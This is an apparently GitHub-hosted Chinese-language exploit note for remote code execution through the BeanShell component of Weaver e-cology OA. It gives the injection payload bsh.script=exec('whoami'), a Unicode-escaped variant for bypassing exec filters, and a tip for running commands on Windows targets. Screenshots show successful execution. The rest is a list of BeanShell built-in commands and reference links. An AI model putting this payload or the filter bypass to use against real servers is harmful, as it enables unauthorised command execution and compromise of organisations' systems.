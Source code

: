 # 泛微e-cology OA Beanshell组件远程代码执行

![](./set.jpg)
## Windows
![](./whoami.jpg)
## Linux
![](./linux.jpg)
![](./linux2.png)

## Ps
```
检测目标系统os.name（因为目标系统是windows的话，执行set等命令，需要手动敲cmd.exe /c set）
使用Unicode绕过exec过滤，部分站点
```
## Payload
```
bsh.script=exec('whoami');

>>>>unicode bypass

bsh.script=\u0065\u0078\u0065\u0063("whoami");

```

## Useful BeanShell Commands

```
In the previous example we used a convenient "built-in" BeanShell command called print(), to display values. 

print() does pretty much the same thing as System.out.println() except that it insures that the output always goes to the command line. print() also displays some types of objects (such as arrays) more verbosely than Java would. 

Another related command is show(), which toggles on and off automatic display of the result of every line you type.
```
#### Here are a few other examples of BeanShell commands:
```
source(), run() - Read a bsh script into this interpreter, or run it in a new interpreter
frame() - Display a GUI component in a Frame or JFrame.
load(), save() - Load or save serializable objects to a file.
cd(), cat(), dir(), pwd(), etc. - Unix-like shell commands
exec() - Run a native application
javap() - Print the methods and fields of an object, similar to the output of the Java javap command.
setAccessibility() - Turn on unrestricted access to private and protected components.
```
## bsh-2.0b4.jar command
`/Users/ale/Desktop/bsh/weaver/WEB-INF/lib/bsh/commands`

```
.//object.bsh
.//rm.bsh
.//run.bsh
.//print.bsh
.//pwd.bsh
.//error.bsh
.//cat.bsh
.//setClassPath.bsh
.//setAccessibility.bsh
.//exec.bsh
.//setFont.bsh
.//dirname.bsh
.//exit.bsh
.//source.bsh
.//frame.bsh
.//cp.bsh
.//printBanner.bsh
.//browseClass.bsh
.//cd.bsh
.//which.bsh
.//setNameSpace.bsh
.//workspaceEditor.bsh
.//thinBorder.bsh
.//bind.bsh
.//bg.bsh
.//save.bsh
.//fontMenu.bsh
.//getSourceFileInfo.bsh
.//classBrowser.bsh
.//load.bsh
.//javap.bsh
.//addClassPath.bsh
.//server.bsh
.//desktop.bsh
.//importCommands.bsh
.//mv.bsh
.//setStrictJava.bsh
.//eval.bsh
.//dir.class
.//getBshPrompt.bsh
.//unset.bsh
.//show.bsh
.//getResource.bsh
.//reloadClasses.bsh
.//clear.bsh
.//getClass.bsh
.//makeWorkspace.bsh
.//importObject.bsh
.//sourceRelative.bsh
.//getClassPath.bsh
.//pathToFile.bsh
.//setNameCompletion.bsh
.//editor.bsh
.//extend.bsh
.//debug.bsh
```

## for Example : eval.bsh

```
a=5;
eval("b=a*2");
print(b);

>>>
10
```
![](./eval.jpg)
## 参考链接：

http://www.beanshell.org/manual/bshmanual.html#Executable_scripts_under_Unix

https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg




